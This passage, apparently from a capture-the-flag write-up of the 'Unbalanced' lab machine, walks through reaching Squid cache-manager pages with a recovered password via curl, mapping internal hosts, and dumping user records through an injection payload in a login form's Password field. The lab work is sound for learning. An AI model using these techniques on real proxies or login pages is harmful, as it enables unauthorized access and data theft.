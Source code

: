 To analyze this with **Burpsuite**, an _Upstream Proxy Server_ has to be added in the _User Options_ tab:
```
Proxy host: 10.10.10.200
Proxy port: 3128
```

The response header _Intranet-Host_ shows two different hostnames every other request:
```
Intranet-Host: intranet-host2.unbalanced.htb
Intranet-Host: intranet-host3.unbalanced.htb
```

With the _cachemgr_passwd_ that was found before, it is possible to gain access to the **Squid** admin functionalities:
```
curl --user ':Thah$Sh1' http://10.10.10.200:3128/squid-internal-mgr/menu

curl -s --user ':Thah$Sh1' http://10.10.10.200:3128/squid-internal-mgr/menu | grep -v disabled
```

The _fqdncache_ command could have information about the hostnames:
```
curl -s --user ':Thah$Sh1' http://10.10.10.200:3128/squid-internal-mgr/fqdncache
```
```
Address         Flg TTL Cnt Hostnames
172.31.179.2    H -001   1 intranet-host2.unbalanced.htb
172.31.179.3    H -001   1 intranet-host3.unbalanced.htb
172.17.0.1      H -001   1 intranet.unbalanced.htb
```

It is suspicious that there is no _intranet-host1_, that probably would have the IP 172.31.179.1.
When browsing there, it shows that it was taken out of the load balancing for security maintenance:
```
Host temporarily taken out of load balancing for security maintenance.
```

It is still active though and _intranet.php_ can also be accessed from 172.31.179.1.
This should have a vulnerability somewhere, so lets send the login form to **Burpsuite** and analyze the response.

### Searching Vulnerability on Web Page

A difference between the login forms is, that _intranet-host1_ shows the message _"Invalid credentials"_ when trying to authenticate.
When sending a _single quote (')_ in any of the parameters, the response size gets bigger, but there is nothing more displayed on the page.
This means that there is some kind of **injection vulnerability**.

After testing for different injections, the following in the _Password_ parameter dumps data from the database:
```
POST http://172.31.179.1/intranet.php HTTP/1.1
Host: 172.31.179.1

Username=admin&Password=' or '1'='
```
```
Rita Fubelli    rita@unbalanced.htb    Role: HR Manager
Jim Mickelson   jim@unbalanced.htb     Role: Web Designer      
Bryan Angstrom  bryan@unbalanced.htb   Role: System Administrator      
Sarah Goodman   sarah@unbalanced.htb   Role: Team Leader
```
